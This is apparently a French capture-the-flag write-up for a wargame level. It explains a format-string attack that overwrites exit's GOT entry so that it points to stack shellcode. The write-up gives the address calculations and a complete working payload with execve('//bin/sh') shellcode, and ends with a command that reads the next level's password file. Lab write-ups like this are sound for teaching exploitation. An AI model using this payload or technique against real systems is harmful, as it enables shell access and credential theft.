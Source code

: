 On a acces a un executable qui fgets 100 octets sur l'entree standard dans un
buffer stack, puis qui les interprete comme une chaine de caracteres pour passer
toutes les majuscules en minuscules. L'executable passe ensuite le buffer a un
printf, avant d'appeler exit().

Notre attaque seras donc une format string attack pour changer l'entree GOT de
exit(), vers un shellcode. Pour eviter que l'instruction 'push eax' de notre
shellcode, qui termine la chaine de caractere "//bin/sh" dans la stack, et dont
l'opcode est 0x50, ne soit transformee en 0x70 par le passage en minuscules (car
0x50 correspond a 'P'), on passe un octet 0 apres notre chaine d'attaque de
format, juste avant le shellcode.

Avec un objdump -R, on trouve l'addresse de l'entree GOT de exit: 0x080497e0

On va la passer 2 fois dans le buffer, pour ecrire les octets 2 par 2, car les
addresses stack commencent par 0xffff.... et ecrire en 1 fois prendrait 4
milliards de caracteres (litteralement).

Pour trouver l'addresse de notre shellcode en memoire, on va deja devoir
trouver la difference entre les addresses gdb et celles de l'execution. On passe
des %p au printf pour lui faire afficher la memoire, et on cherche des addresses
stack a comparer entre gdb et l'execution normale.

	$ echo "%p %p %p %p %p %p %p %p %p %p" > /tmp/in
	$ cat /tmp/in | ./level05
	$ gdb level05
	(gdb) r < /tmp/in

En comparant les addresses on trouve que la difference entre les addresses gdb
et exec normale est de 32 octets de plus pour l'execution normale. On trouve
l'addresse du buffer dans gdb: 0xffffd698
On ajoute 0x20 pour obtenir l'addresse du buffer en execution normale: 0xffffd6b8

On trouve avec des %p que l'argument positionnel printf pour tomber dans le
buffer est de 10 (et 11 pour tomber 4 octets dans le buffer).
Notre chaine de format string attack seras donc:
[addresse GOT][addresse GOT + 4][nombre des 2 1ers octets addr shellcode]%10$n↙
[nombre des 2 derniers octets addr shellcode - octets deja affiches]%11$n

- les addresses font 4 octets chacunes (8 octets),
- le padding se fait avec "%12345x" les 2 fois, soit 2*7 octets (14 octets)
- les %n sont "%10$n" et "%11$n" soit 2*5 octets (10 octets)
- l'octet nul pour separer le shellcode de la chaine d'attaque ajoute 1 octet

Notre chaine d'attaque fait donc au total 33 octets. On ajoute 33 a l'addresse
du buffer en execution normale pour obtenir l'addresse de notre shellcode en
memoire: 0xffffd6d9

On peux maintenant trouver le nombre d'octets a mettre dans le padding pour
ecrire en memoire precisement 0xffffd6d9:
-1ere moitie: On enleve 8 pour les 8 octets des 2 addresses
0xd6d9 - 0x8 = 54993 en decimal
-2eme moitie: On enleve le nombre d'octets deja affiches (0xd6d9)
0xffff - 0xd6d9 = 10534 en decimal

Notre chaine d'attaque complete seras donc:  
[chaine pour la GOT override (ligne 37-38)][octet 0][shellcode][padding pour satisfaire le fgets]

	$ [copie colle du contenu de fill_script_command]
	$ echo -en "\xe0\x97\x04\x08\xe2\x97\x04\x08%54993x%10\$n%10534x%11\$n\x00\x31\xc0\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80"$(/tmp/fill 50) > /tmp/in
	$ (cat /tmp/in; echo "cat /home/users/level06/.pass") | ./level05
